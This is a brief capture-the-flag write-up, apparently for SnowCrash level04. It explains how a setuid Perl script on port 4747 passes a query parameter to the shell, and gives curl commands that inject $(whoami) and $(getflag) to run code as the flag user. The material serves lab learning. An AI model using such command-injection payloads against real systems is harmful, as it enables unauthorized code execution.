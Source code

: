 -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

level04.pl has special permissions for flag04

there is a perl script running on port 4747, which prints a parameter 'x'
This can be checked using netstat -tul (tcp, udp, listening)
this allows execution of a command passed as a parameter

level04@SnowCrash:~$ curl localhost:4747?x='$(whoami)'
flag04


using interpolated strings, we get to execute code by the flag user

if getflag gets evaluated from the script, which runs as user flag04,

	curl localhost:4747?x='$(getflag)'

results in the reveal of the flag.


